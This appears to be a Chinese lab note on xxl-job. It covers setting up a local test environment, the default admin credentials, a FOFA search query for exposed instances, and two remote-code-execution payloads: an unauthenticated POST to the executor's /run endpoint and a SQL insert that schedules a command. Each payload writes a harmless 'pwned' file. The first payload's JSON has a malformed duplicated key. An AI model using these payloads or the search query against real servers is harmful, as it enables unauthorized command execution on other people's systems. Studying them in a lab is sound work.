



### 环境搭建

**xxl-job**是一个轻量级分布式任务调度平台，处理各种定时任务和批处理任务

总结一下idea搭建java环境时的版本设置

**项目结构配置**（`Ctrl + Shift + Alt + S`）

其中的`Project Settings -> Project \ Modules`和`Platform Settings -> SDKs`：本地java版本和子模块都为所需的版本

**全局与编译器设置**（`Ctrl + Alt + S`）

`Build, Execution, Deployment -> Compiler -> Java Compiler`：字节码版本；`Build, Execution, Deployment -> Build Tools -> Maven / Gradle`：Maven构建都需要是对应到版本

之后在`pom.xml`和`application.properties`中设置对应的数据库账密、加密密钥等

- 默认口令

```
admin / 123456
```

- fofa语法

```
icon_hash="1691956220"
```


### 未授权RCE

xxl-job分为两部分：调度中心admin和执行器Exector

执行器启动后，默认启动9999端口，来接收调度中心的指令，可以通过`GLUE`来执行命令



漏洞的核心点在于：Exector未配置AccessToken，以至于对用户没有校验，而且默认端口暴露

远程执行payload：

```
POST /run HTTP/1.1
Host: 192.168.118.1:9999
Content-Type: application/json;charset=UTF-8
Content-Length: 413

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "",
  "executorBlockStrategy": "SERIAL_EXECUTION",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1700000000000,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "glueSource": "cmd.exe /c echo 'pwned' > C:\\Users\\Public\\success.txt",
  "glueUpdatetime": 1700000000000,
  "broadcastIndex": 0,
  "broadcastTotal": 1
}
```




### 数据库RCE

payload：

```sql
INSERT INTO `xxl_job`.`xxl_job_info` 
(`job_group`, `job_desc`, `add_time`, `update_time`, `author`, `alarm_email`, `job_cron`, `glue_type`, `glue_source`, `glue_remark`, `glue_updatetime`, `child_jobid`, `trigger_status`, `trigger_last_time`, `trigger_next_time`, `executor_route_strategy`, `executor_handler`, `executor_param`, `executor_block_strategy`, `executor_timeout`, `executor_fail_retry_count`) 
VALUES 
(1, 'Database RCE Test 2.2.0', NOW(), NOW(), 'admin', '', '0/5 * * * * ?', 'GLUE_POWERSHELL', 'cmd.exe /c echo pwned > C:\\Users\\Public\\dbsuccess.txt', 'init', NOW(), '', 1, 0, 1000000000000, 'FIRST', '', '', 'SERIAL_EXECUTION', 0, 0);
```

结果：




